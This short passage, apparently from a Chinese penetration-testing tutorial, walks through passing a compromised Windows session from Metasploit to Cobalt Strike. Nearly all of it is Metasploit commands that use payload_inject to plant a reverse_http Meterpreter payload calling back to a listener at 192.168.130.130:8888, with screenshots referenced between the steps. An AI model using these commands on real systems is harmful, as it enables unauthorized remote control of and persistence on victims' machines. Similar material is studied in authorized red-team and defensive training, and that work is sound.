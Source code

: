 ![img](assets/1660387925080-9c4df59e-26c3-489e-b3d3-7773b9405d37.png)

返回msf，派生给cs。

background

use exploit/windows/local/payload_inject

set payload windows/meterpreter/reverse_http

set DisablePayloadHandler true

set lhost 192.168.130.130

set lport 8888

set session 1

run

![img](assets/1660388177631-59032c3d-ffa9-4cf8-b959-c1b78e2f639e.png)

